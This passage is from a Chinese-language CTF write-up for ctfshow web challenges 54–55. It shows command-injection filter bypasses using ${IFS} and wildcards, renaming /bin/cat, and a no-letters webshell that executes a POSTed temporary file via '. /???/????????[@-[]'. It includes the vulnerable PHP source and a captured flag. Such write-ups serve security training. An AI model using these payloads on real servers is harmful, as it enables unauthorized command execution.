 ``````

- 思路一：找命令替代cat，想到一个vi看其他师傅用了个uniq
- 思路二：hint中给了个/bin/ca?${IFS}fla?.php，命令也能用通配符
- 思路三：另外由于mv或者copy之类的命令没有过滤，所以想到之前提权的一些手法，将命令重命名
  `mv${IFS}/bin/?at${IFS}/bin/a  /bin/a${IFS}fla?.php` 

payload: `/?c=vi${IFS}f???.php` `/?c=uniq${IFS}f???.php`

flag: `ctfshow{01b2beac-bc2e-4197-82dd-d4e88c5a9d8f}`

## Web55

题目：

``````php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: Lazzaro
# @Date:   2020-09-05 20:49:30
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-07 20:03:51
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/

// 你们在炫技吗？
if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|[a-z]|\`|\%|\x09|\x26|\>|\</i", $c)){
        system($c);
    }
}else{
    highlight_file(__FILE__);
}
``````



### 思路一：. 命令+phpPOST文件特性实现无数字字母执行命令

无数字字母webshell ，“反引号”是PHP中最简单的执行shell的方法。

``````
?><?=`. /???/????????[@-[]`;?>
``````

#### 原理

1. PHP中post传入的文件会临时保存到/tep/phpXXXXXX（例如：/tmp/phpcjggLC）的文件中，当会话结束时删除该文件

2. linux中用 `. filename` 来执行命令
3. 结合上面两点我们就可以通过post传入 sh 脚本get传参c=. /tmp/sh脚本就可以执行脚本中的命令
4. 但是由于XXXXXX是随机值而且不能传入字母，所以使用通配符?，但是对于/???/?????????这样的文件不只传入的临时文件（例如：/bin/run-parts|/etc/issue.net 这样的文件）![web55_qtwj](./image/web55_qtwj.png)
5. 所以还要找到该文件区别于其他文件的特性。可以看到临时文件中带有随机的大写字母，所以可以用这点来区别其他文件，所以构造了`. /???/????????[@-[]`的命令来执行临时文件（@和]在ascii码表中间是大写字母）


[ERROR]: could not find driver